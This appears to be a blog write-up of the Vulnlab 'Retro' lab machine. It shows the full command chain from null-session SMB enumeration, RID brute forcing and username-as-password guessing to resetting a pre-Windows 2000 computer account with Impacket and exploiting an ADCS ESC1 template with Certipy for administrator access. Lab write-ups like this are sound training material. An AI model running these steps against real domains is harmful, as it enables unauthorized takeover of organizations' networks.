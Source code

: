 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Retro/logo.png
date: 2024-06-22 09:45:47 +07:00
modified: 2024-06-22 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: r0BIT
  link: https://www.linkedin.com/in/robin-unglaub/
tags: [Retro, SMB, null session, RID brute forcing, password guessing, simple passwords, Windows shares, Pre-Windows 2000 Computers, credential change, Impacket, ESC1, Active Directory Certificate Services, Certipy, Kerberos, TGT request]
title: Retro - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro is an **easy** difficulty machine where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize credential brute forcing to discover simple passwords, and employ Impacket and Certipy to change credentials and exploit an ESC1 vulnerability for privilege escalation. The final step involved obtaining a TGT for the administrator to capture the root flag.


# Enumeration
The Nmap scan shows the following ports.

```Bash
PORT      STATE SERVICE
53/tcp    open  domain 
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc
139/tcp   open  netbios-ssn  
389/tcp   open  ldap
445/tcp   open  microsoft-ds 
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws
```

Guest login is enabled in the machine and I can see the shares using a username and null password.
`netexec smb ip -u 'sz' -p '' --shares`

![](https://photos.squarezero.dev/file/abir-images/Retro/0.png)

I also used rid brute force to get users into the system.
`netexec smb ip -u 'sz' -p '' --rid-brute`

![](https://photos.squarezero.dev/file/abir-images/Retro/1.png)

# Password Guessing

In the Trainees shares there is a text file where it talks about making an simple password for trainees.

`smbclient "//10.10.81.244/Trainees" -U "sz" --password=''`

```
Dear Trainees,     
I know that some of you seemed to struggle with remembering strong and unique passwords. 
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.                                                                                                                                                      
                                                    
Regards                                                                                                                                                                                                                                                                                            
The Admins
```

Using the usernames earlier I can tried bruteforce with usernames as password and got **trainees:trainees** valid

`netexec smb 10.10.81.244 -u user.txt -p user.txt -no-bruteforce`

![](https://photos.squarezero.dev/file/abir-images/Retro/2.png)

# Pre-Windows 2000 Computers

I explored Notes share with trainee credentials and found another notes where it talked about **Pre Created Computer Account**
`smbclient "//10.10.81.244/Notes" -U "trainee" --password='trainee'`

![](https://photos.squarezero.dev/file/abir-images/Retro/3.png)

```
Thomas,
       
after convincing the finance department to get rid of their ancienct banking software 
it is finally time to clean up the mess they made. We should start with the pre created computer account. That one is older than me.
       
Best   
James
```

After researching for a little bit I found this 2 article where it talked about how I can change the credentials of **Pre-Windows 2000 Computers**.

[The Hacker Recipes](https://www.thehacker.recipes/ad/movement/domain-settings/pre-windows-2000-computers)
[Trustedsec](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts)

![](https://photos.squarezero.dev/file/abir-images/Retro/4.png)

As this is a financial department I used previously found user **banking** and got ***NT_STATUS_RESOURCE_NAME_NOT_FOUND*** which confirms its vulnerable.

`smbclient -W retro.vl -U "banking" --password='banking' -L retro.vl`

![](https://photos.squarezero.dev/file/abir-images/Retro/5.png)

I also verified it with Netexec.

![](https://photos.squarezero.dev/file/abir-images/Retro/6.png)

Next, I used Impacket to change the credentials and also create alternative credentials.

`impacket-changepasswd retro.vl/banking$:banking@10.10.105.52 -newpass Password123 -altuser trainee -altpass trainee`

![](https://photos.squarezero.dev/file/abir-images/Retro/7.png)


# ESC1

Using the new credential I enumerated ADCS and the machine was vulnerable to ESC1 attack.

`certipy find -u 'banking$' -p 'Password123' -dc-ip 10.10.105.52 -enabled -vulnerable -stdout`


```bash
Certificate Templates                   
  0                                     
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA 
    Enabled                             : True        
    Client Authentication               : True        
    Enrollment Agent                    : False       
    Any Purpose                         : False       
    Enrollee Supplies Subject           : True        
    Certificate Name Flag               : EnrolleeSuppliesSubject  
    Enrollment Flag                     : None        
    Private Key Flag                    : 16842752    
    Extended Key Usage                  : Client Authentication 
    Requires Manager Approval           : False       
    Requires Key Archival               : False       
    Authorized Signatures Required      : 0           
    Validity Period                     : 1 year      
    Renewal Period                      : 6 weeks     
    Minimum RSA Key Length              : 4096        
    Permissions                         
      Enrollment Permissions            
        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
      Object Control Permissions        
        Owner                           : RETRO.VL\Administrator
        Write Owner Principals          : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Dacl Principals           : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Property Principals       : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
    [!] Vulnerabilities                 
      ESC1
```

Using Certipy I requested .pfx key using the vulnerable template. Because of the ***Key Size*** error, I specified the key-size

`certipy req -u 'banking$'@retro.vl -p 'Password123' -dc-ip 10.10.105.52 -ca retro-DC-CA -template RetroClients -upn ADMINISTRATOR@retro.VL -key-size 4096`

![](https://photos.squarezero.dev/file/abir-images/Retro/8.png)

Next, Using the pfx key I requested TGT of the administrator.

`certipy auth -pfx administrator.pfx -username Administrator -domain retro.vl -dc-ip 10.10.105.52`

![](https://photos.squarezero.dev/file/abir-images/Retro/9.png)

Using the TGT I can now login to the machine and get the flag.
`wmiexec.py administrator@10.10.105.52 -hashes <.....redacted......>`

![](https://photos.squarezero.dev/file/abir-images/Retro/10.png)



